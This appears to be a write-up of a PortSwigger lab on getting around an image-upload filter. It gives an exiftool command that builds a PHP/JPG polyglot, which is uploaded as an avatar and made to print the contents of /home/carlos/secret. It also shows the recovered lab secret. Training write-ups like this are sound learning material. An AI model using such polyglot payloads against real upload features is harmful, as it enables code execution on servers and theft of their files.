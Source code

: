 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/16f223c8-5206-44a3-a9ec-87818dbbfc3d)

## Solution:

When the exploit PHP code was attempted to be uploaded, the server refused access, claiming it was not an image file.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/e7f02907-26ae-4fb0-a407-67bc19955270)

Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata using exiftoolwith this command

`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.png -o polyglot.php`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/cb00a063-a046-46fb-89b9-fbd190afffe4)

This adds your PHP payload to the image's Comment field, then saves the image with a .php extension.

In the browser, upload the polyglot image as your avatar,

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/775ceebb-be21-40de-8eda-11fb2eb7f456)

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/f0f465ae-23f6-47f0-81f1-6f0d83c0f2c6)

In Burp's proxy history, find the GET /files/avatars/polyglot.php request.

Use the message editor's search feature to find the START string somewhere within the binary image data in the response. Between this and the END string, you should see Carlos's secret.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/26716316-a350-461e-9a06-96480acbab1d)

The secret content is `8wDB00JAtGkyrBvinQF1IljdvB6fkJb2`

Now go to Home page and submit the solution.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/1f229def-e688-4a3d-8053-cf0d94757ff6)

Lab Solved.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/a090ca87-44ed-4984-8847-b58ba8e4de35)


